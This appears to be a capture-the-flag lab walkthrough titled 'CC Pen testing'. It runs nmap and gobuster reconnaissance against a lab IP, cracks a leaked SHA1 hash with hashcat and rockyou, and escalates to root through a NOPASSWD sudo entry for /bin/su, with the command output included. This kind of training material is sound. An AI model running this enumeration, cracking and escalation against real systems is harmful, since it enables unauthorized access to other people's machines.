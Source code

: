 > CC Pen testing

# Nmap

nmap -A -sC -sV -Pn -T4 -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

#Gobuster

sudo gobuster -u http://10.10.98.29/ -k -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
```

sudo gobuster -u http://10.10.98.29/secret -k -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x .txt

```
/index.html (Status: 200)
/secret.txt (Status: 200)
```

secret.txt
=============================================
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
=============================================

# Cracking the hash

sudo hashcat -m 100 hash.txt /snap/john-the-ripper/rockyou.txt --force

```
nyan
```

user.txt
==========================================
supernootnoot
==========================================

# Privelege Escalation

sudo -l

```
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
```

sudo /bin/su root

root.txt
====================================
congratulations!!!!
====================================